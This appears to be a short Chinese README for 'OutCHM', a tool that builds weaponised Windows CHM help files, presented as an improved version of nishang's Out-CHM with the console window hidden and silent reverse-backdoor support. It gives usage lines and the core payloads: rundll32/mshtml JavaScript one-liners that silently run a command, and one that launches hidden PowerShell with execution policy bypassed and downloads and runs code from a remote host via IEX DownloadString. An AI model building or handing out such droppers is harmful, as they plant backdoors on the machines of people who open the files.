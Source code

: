 # OutCHM
OutCHM就是可以生成一个CHM啦。

---

nishang/client/Out-CHM.ps1 的优化版，隐藏了原版的黑窗闪过，修复多次运行的bug，支持反弹 msf> web_delivery的反弹后门与静默自定义命令。

用法：
    
    OutCHM.py -p 'command' -o outfile.chm
    OutCHM.py -s 'http://192.168.0.100:8080' -o outfile.chm

核心命令类似下面的：
    
    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("cmd.exe /c whoami > c:\\nishang\\1.txt",0,true);
    
    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString(&#39;http://192.168.0.100:8080/&#39;));",0,true);

    
似乎也没啥说的了，反正我觉得已经很好用啦。
